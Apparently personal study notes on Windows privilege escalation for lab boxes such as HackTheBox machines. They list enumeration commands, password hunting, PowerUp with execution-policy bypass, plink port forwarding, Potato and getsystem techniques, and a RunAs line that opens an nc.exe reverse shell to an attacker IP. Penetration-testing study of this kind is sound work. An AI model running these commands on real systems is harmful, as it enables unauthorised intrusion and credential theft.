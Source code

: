 
- [Fuzzy Security Guide](https://www.fuzzysecurity.com/tutorials/16.html)
- [PayloadsAllTheThings Guide](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Windows%20-%20Privilege%20Escalation.md)
- [Absolomb Windows Privilege Escalation Guide](https://www.absolomb.com/2018-01-26-Windows-Privilege-Escalation-Guide/)
- [Sushant 747's Guide (Country dependant - may need VPN)](https://sushant747.gitbooks.io/total-oscp-guide/content/privilege_escalation_windows.html)
- [Course Resources](https://github.com/TCM-Course-Resources/Windows-Privilege-Escalation-Resources)
- [Alternate Data Streams](https://blog.malwarebytes.com/101/2015/07/introduction-to-alternate-data-streams/)
## Initial Enumeration
- System Enumeration
	- `systeminfo` 
	- `systeminfo | findstr /b /c:"OS Name" /c:"OS Versoin" /c:"System Type" `
	- `wmic qfe `
	- `wmic qfe Caption,Description,HotFixID,InstalledOn` 
	- `wmic logicaldisk `
	- `wmic logicaldisk get caption,description,providername` 
	- `wmic logicaldisk get caption`
- User Enumeration
	- `whoami /priv`
	- `whoami /groups`
	- `net user`
	- `net user anurag`
	- `net localgroup`
	- `net localgriup Administrators`
- Network Enumeration
	- `ipconfig` or `ipconfig /all`
	- `arp -a`
	- `route print`
	- `netstat -ano`
- Password Hunting
	- `findstr /si password *.txt *.ini *.config`
-  AV Enumeration
	- `sc query windefend`
	- `sc queryex type= service`
	- `netsh advfirewall firewall dump`
	- `netsh firewall show state`
	- `netsh firewall show config`

## Automated Tool
- Executables
	- [WinPEAS ](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/winPEAS)
	- [Seatbelt](https://github.com/GhostPack/Seatbelt) (Compile)
	- [SharpUp](https://github.com/GhostPack/SharpUp) (Compile)
	- [Watson](https://github.com/rasta-mouse/Watson) (Compile)
- PowerShell
	- [Sherlock](https://github.com/rasta-mouse/Sherlock)
	- [PowerUp](https://github.com/PowerShellMafia/PowerSploit/tree/master/Privesc)  -- run always
		- To run `powershell -ep bypass` 
		- `, .\PowerUp.ps1` 
		- `Invoke-AllChecks`
	- [JAWS](https://github.com/411Hall/JAWS)
- Other
	- [Windows Exploit Suggester](https://github.com/AonCyberLabs/Windows-Exploit-Suggester) (local) -- need system info and run on our system
	- [Metasploit Local Exploit Suggester](https://blog.rapid7.com/2015/08/11/metasploit-local-exploit-suggester-do-less-get-more/)

- [Windows PrivEsc Checklist](https://book.hacktricks.xyz/windows/checklist-windows-privilege-escalation)

## Escalation Path

####  Kernel Exploits
- Box [Devel](https://anuragtaparia.gitbook.io/write-ups/windows/htb-or-devel)
- What is kernel
![[kernel.png]]
- For Windows
![[windows kernel.png]]
- [Windows Kernel Exploits](https://github.com/SecWiki/windows-kernel-exploits) resource

#### Passwords and Port Forwarding
- Box [ChatterBox](https://anuragtaparia.gitbook.io/write-ups/windows/htb-or-chatterbox)
- Pivoting
	- install ssh on kali `sudo apt install ssh` and change the `PermitRootLogon yes` in `/etc/ssh/sshd_config`  then `service restart ssh` 
		- also change the port from 22 to 2222 if giving 'Network error: Connection timed out'
	- `plink.exe -l root -pw toor -R 445:127.0.0.1:445 10.10.14.16`  
		- The command connects to the remote SSH server at `10.10.14.16` with the username `root` and password `toor`. It sets up remote port forwarding so that any connections made to port `445` on the remote server are forwarded to port `445` on your local machine (local machine is htb box in our case).

#### Windows Subsystem for Linux (WSL)
- Box SecNotes
- check for bash.exe and wsl.exe
- `where /R c:\windows bash.exe `  OR `where /R c:\windows wsl.exe`
- and run bash.exe or `wsl.exe cmd`

#### Impersonation and Potato Attacks
- Box Jeeves
- Refer [this](https://swisskyrepo.github.io/InternalAllTheThings/redteam/escalation/windows-privilege-escalation/#eop-impersonation-privileges)
- look for `SeAssignPrimaryToken` or `SeImpersonate`
- [Rotten Potato](https://foxglovesecurity.com/2016/09/26/rotten-potato-privilege-escalation-from-service-accounts-to-system/)
- [Juicy Potato](https://github.com/ohpe/juicy-potato)
- For meterpreter `exploit/windows/local/ms16_075_reflection_juicy` or `exploit/windows/local/ms16_075_reflection`
- `getsystem` -- meterpreter cmd for impersonation (avoid technique 2 in real world might got caught by AV)
	- [What happens when I type getsystem?](https://blog.cobaltstrike.com/2014/04/02/what-happens-when-i-type-getsystem/)

#### RunAs
- Box Access
- run `cmdkey /list` -- if there is any stored cred, we can use runas.exe
	- `C:\Windows\System32\runas.exe /user:ACCESS\Administrator /savecred "C:\Windows\System32\cmd.exe /c TYPE C:\Users\Administrator\Desktop\root.txt > C:\Users\security\root.txt"`
	- or for shell
		- On our system -- `nc -nlvp 1234`
		- on box -- `C:\Windows\System32\runas.exe /user:ACCESS\Administrator /savecred "C:\Windows\System32\cmd.exe /c C:\Users\security\nc.exe -e C:\Windows\System32\cmd.exe 10.10.14.6 1234"`

#### Registry
- Using THM [Windows PrivEsc Arena](https://tryhackme.com/r/room/windowsprivescarena)
- Registry Escalation - Autorun
- Registry Escalation -  AlwaysInstallElevated
- Service Escalation - Registry

#### Executable Files
- Using THM [Windows PrivEsc Arena](https://tryhackme.com/r/room/windowsprivescarena)
- Service Escalation - Executable Files